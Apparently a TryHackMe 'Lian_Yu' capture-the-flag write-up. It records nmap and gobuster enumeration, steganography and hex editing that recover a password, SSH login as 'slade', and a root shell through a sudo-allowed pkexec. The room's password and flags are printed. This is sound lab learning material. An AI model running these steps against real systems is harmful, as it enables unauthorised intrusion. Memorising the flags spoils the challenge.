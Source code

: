 ### lian_yu
## 9/18/20

### IP

IP `10.10.137.46`

### nmap scan

nmap scan
nmap -sC -sV -p- -oN nmap/initial 10.10.137.46

```
# Nmap 7.80 scan initiated Fri Sep 18 19:40:24 2020 as: nmap -sC -sV -oN nmap/initial 10.10.137.46
Nmap scan report for 10.10.137.46
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35556/udp   status
|   100024  1          49617/udp6  status
|   100024  1          53353/tcp6  status
|_  100024  1          60791/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 18 19:42:35 2020 -- 1 IP address (1 host up) scanned in 130.54 seconds
```

### gobuster scan
gobuster dir -u 10.10.137.46 -w /usr/share/wordlists/directory-list-2.3-medium.txt -o gobuster_scan.txt

/island (Status: 301)
/server-status (Status: 403)


#### gobuster scan of /island/2100
gobuster dir --url 10.10.137.46/island/2100 --wordlist /usr/share/wordlists/directory-list-2.3-medium.txt -x .ticket

/green_arrow.ticket
reveals RTy8yhBQdscX
convert from base58 !#th3h00d

### Hexedit

used hexedit to change the image Leave_me_alone.png (would not open)
password

### Steghide

used steghide on the aa.jpg
password

### Unzip ss

archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
[inflatus@cheese-shop gobuster]$ cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

[inflatus@cheese-shop gobuster]$ cat shado 
M3tahuman


### ssh with username and password
ssh 10.10.127.190
slade
M3tahuman

cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

### privesc

sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/bash


root@LianYu:~# ls -l
total 4
-rw-r--r-- 1 root root 340 May  1 07:17 root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE


